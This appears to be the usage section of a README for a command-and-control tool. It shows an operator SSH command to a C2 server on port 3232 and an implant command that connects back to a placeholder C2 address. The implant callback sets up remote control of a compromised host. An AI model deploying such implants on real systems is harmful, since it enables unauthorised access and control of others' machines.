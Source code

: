 # Usage

## Operator

```
$ ssh -i /path/to/ssh_key -p 3232 <C2_IP>
```

## Implant

```
> client -d <C2_IP>:3232
```